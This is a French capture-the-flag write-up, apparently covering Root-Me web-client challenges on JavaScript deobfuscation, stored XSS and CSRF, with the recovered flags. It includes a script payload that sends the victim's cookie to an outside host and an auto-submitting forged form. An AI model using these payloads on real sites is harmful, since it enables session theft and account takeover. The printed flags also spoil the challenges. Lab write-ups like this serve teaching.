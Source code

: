 ```Javascript
o = tab[i - l];
[...]
p += String.fromCharCode((o = tab2[i]));
[...]
```

Le code étant tout simplement:

```Javascript
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
```

Qui en ASCII, donne:

```Javascript
786OsErtk12
```

## XSS - Stockée 1

Le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code Javascript.

```Javascript
<script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script>
```

Pour enfin récupérer le cookie:

```Javascript
/ADMIN_COOKIE=NkI9qe4cdLIO2P7MIsWS8ofD6
```

## CSRF - 0 protection

Étant donné qu'il n'y a pas de token CSRF, une injection peut être faites sans problème via une forme:

```HTML
<form name="crcf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="POST">
    <input type="text" name="username" value="user"/>
    <input type="checkbox" name="status" checked/>
</form>
<script>
document.crcf.submit()
</script>
```

Ainsi nous pouvons valider notre compte et récupérer le token:

```HTML
Csrf_Fr33style-L3v3l1!
```

## Flash - Authentication
